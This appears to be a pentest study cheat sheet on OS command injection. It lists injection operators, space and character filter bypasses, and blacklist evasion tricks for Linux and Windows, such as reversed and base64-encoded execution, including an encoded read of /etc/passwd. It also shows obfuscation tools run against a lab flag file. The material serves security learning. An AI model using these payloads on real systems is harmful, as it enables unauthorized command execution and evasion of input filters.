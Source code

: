# Command injections

[Hacktricks](https://book.hacktricks.xyz/pentesting-web/command-injection)

[PayloadAlltheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)

[PortSwigger](https://portswigger.net/web-security/os-command-injection)

## Injection operators

```
Injection Operator 	Injection Character 	URL-Encoded Character 	Executed Command
Semicolon 	; 	%3b 	Both
New Line 	\n 	%0a 	Both
Background 	& 	%26 	Both (second output generally shown first)
Pipe 	| 	%7c 	Both (only second output is shown)
AND 	&& 	%26%26 	Both (only if first succeeds)
OR 	|| 	%7c%7c 	Second (only if first fails)
Sub-Shell 	`` 	%60%60 	Both (Linux-only)
Sub-Shell 	$() 	%24%28%29 	Both (Linux-only)
```

## Linux

```
printenv 	Can be used to view all environment variables
Spaces 	
%09 	Using tabs instead of spaces
${IFS} 	Will be replaced with a space and a tab. Cannot be used in sub-shells (i.e. $())
{ls,-la} 	Commas will be replaced with spaces
Other Characters 	
${PATH:0:1} 	Will be replaced with /
${LS_COLORS:10:1} 	Will be replaced with ;
$(tr '!-}' '"-~'<<<[) 	Shift character by one ([ -> \)
```

### Blacklisted Command Bypass

```
Code 	Description
Character Insertion 	
' or " 	Total must be even
$@ or \ 	Linux only
Case Manipulation 	
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi") 	Execute command regardless of cases
$(a="WhOaMi";printf %s "${a,,}") 	Another variation of the technique
Reversed Commands 	
echo 'whoami' | rev 	Reverse a string
$(rev<<<'imaohw') 	Execute reversed command
Encoded Commands 	
echo -n 'cat /etc/passwd | grep 33' | base64 	Encode a string with base64
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) 	Execute b64 encoded string
```

## Windows

### Filtered Character Bypass

```
Code 	Description
Get-ChildItem Env: 	Can be used to view all environment variables - (PowerShell)
Spaces 	
%09 	Using tabs instead of spaces
%PROGRAMFILES:~10,-5% 	Will be replaced with a space - (CMD)
$env:PROGRAMFILES[10] 	Will be replaced with a space - (PowerShell)
Other Characters 	
%HOMEPATH:~0,-17% 	Will be replaced with \ - (CMD)
$env:HOMEPATH[0] 	Will be replaced with \ - (PowerShell)
```

### Blacklisted Command Bypass

```
Code 	Description
Character Insertion 	
' or " 	Total must be even
^ 	Windows only (CMD)
Case Manipulation 	
WhoAmi 	Simply send the character with odd cases
Reversed Commands 	
"whoami"[-1..-20] -join '' 	Reverse a string
iex "$('imaohw'[-1..-20] -join '')" 	Execute reversed command
Encoded Commands 	
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami')) 	Encode a string with base64
iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

## Evasion Tools

### Linux

A handy tool we can utilize for obfuscating bash commands is [Bashfuscator](https://github.com/Bashfuscator/Bashfuscator).

```
git clone https://github.com/Bashfuscator/Bashfuscator
cd Bashfuscator
python3 setup.py install --user

```

### Windows

There is also a very similar tool that we can use for Windows called [DOSfuscation](https://github.com/danielbohannon/Invoke-DOSfuscation). Unlike `Bashfuscator`, this is an interactive tool.

```
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git
cd Invoke-DOSfuscation
Import-Module .\Invoke-DOSfuscation.psd1
Invoke-DOSfuscation
Invoke-DOSfuscation> help
```

We can even use `tutorial` to see an example of how the tool works. Once we are set, we can start using the tool, as follows:

```
Invoke-DOSfuscation> SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
Invoke-DOSfuscation> encoding
Invoke-DOSfuscation\Encoding> 1

...SNIP...
Result:
typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt


```

Finally, we can try running the obfuscated command on `CMD`, and we see that it indeed works as expected:

```
C:\htb> typ%TEMP:~-3,-2% %CommonProgramFiles:~17,-11%:\Users\h%TMP:~-13,-12%b-stu%SystemRoot:~-4,-3%ent%TMP:~-19,-18%%ALLUSERSPROFILE:~-4,-3%esktop\flag.%TMP:~-13,-12%xt

test_flag
```

